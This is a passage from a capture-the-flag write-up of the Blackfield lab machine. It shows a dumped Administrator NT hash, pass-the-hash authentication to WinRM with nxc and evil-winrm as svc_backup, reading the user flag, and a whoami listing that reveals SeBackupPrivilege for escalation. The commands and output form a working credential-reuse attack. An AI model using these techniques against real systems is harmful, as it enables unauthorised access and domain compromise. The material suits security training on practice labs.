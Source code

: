 ```bash
<SNIP>
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
<SNIP>
```

The hash for the `Administrator` account does not work, but for the `svc_backup` account does:

```bash
$ nxc winrm 10.10.10.192 -u svc_backup -H 96<REDACTED>0d
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:96<REDACTED>0d (Pwn3d!)
```

Get a shell as `svc_backup` and compromise `user.txt`:

```bash
$ evil-winrm -i 10.10.10.192 -u svc_backup -H 96<REDACTED>0d

<SNIP>
*Evil-WinRM* PS C:\Users\svc_backup\Documents> type ..\desktop\user.txt
39<REDACTED>43
```

Check user's information:

```bash
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /all

<SNIP>

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
<SNIP>


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
